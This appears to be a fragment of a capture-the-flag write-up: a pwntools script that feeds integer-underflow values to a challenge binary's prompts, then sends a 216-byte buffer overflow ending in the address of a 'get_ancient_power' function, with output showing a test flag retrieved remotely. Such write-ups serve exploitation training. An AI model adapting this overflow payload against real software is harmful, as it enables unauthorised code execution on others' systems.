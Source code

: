 ```py

io.recvuntil(b'ingredient')

io.sendline(b'a')
io.sendline(str(UNDERFLOW).encode())

io.sendline(b'b')
io.sendline(str(UNDERFLOW).encode())

io.sendline(b'c')
io.sendline(b'0')

io.sendline(b'd')
io.sendline(b'0')

spell = flat(
    'A'*216,
    elf.sym['get_ancient_power']
)

io.recvuntil(b'spell!')
io.sendline(spell)

io.interactive()


```

```console
$ python exploit.py REMOTE

flag{testflag}
```
